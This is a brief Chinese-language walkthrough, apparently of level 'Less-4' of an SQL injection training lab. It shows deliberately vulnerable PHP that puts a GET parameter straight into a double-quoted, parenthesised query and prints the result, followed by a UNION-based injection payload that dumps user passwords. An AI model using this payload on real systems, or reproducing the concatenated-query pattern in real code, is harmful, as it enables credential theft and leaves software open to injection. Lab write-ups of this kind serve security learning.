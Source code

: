 <img src="图片\Snipaste_2023-01-20_12-20-48.png" alt="Snipaste_2023-01-20_12-20-48" style="zoom:67%;" />

## Less-4

题目部分源码，双引号括号GET型注入

```
$id=$_GET['id'];
// connectivity 

$id = '"' . $id . '"';
$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
..........
echo 'Your Login name:'. $row['username'];
  	echo "<br>";
  	echo 'Your Password:' .$row['password'];
```

思路与 Less-1 一致 ，关键也是在闭合 sql 语句，用 ") 来闭合

```
-1")  union select 1,database(),(select group_concat(password) from security.users),4,5,6 --+
```
